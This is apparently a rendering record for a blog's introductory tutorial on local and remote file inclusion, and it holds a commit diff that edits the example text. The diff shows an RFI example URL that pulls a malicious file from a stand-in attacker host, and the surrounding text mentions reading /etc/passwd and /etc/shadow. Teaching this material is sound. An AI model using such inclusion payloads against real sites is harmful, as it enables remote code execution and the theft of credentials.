

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from rfi-lfi.md, in a window 1280 px wide and 900 px high, scrolled down 714 px. Shown: the whole window, without its empty margins (107-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update rfi-lfi.md

```diff
--- a/rfi-lfi.md
+++ b/rfi-lfi.md
@@ -15,8 +15,8 @@ for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.
 <center> <img src="lfi-example.PNG"/> </center>
 <br>
 On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in
-RCE(Remote Code Execution). <br> For example <code>https://www.site.com/app.php?file=http://attackers.website.com/file.txt</code>.
-You could execute malicious code from the <code>file.txt</code> file and use it for evil intention. <br>
+RCE(Remote Code Execution). <br> For example <code>https://www.site.com/app.php?file=http://attackers.website.com/somemaliciousfile</code>.
+You could execute malicious code from the <code>somemaliciousfile</code> file and use it for evil intention. <br>
 <br>
 LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
 you never know 🙂. <br>
```
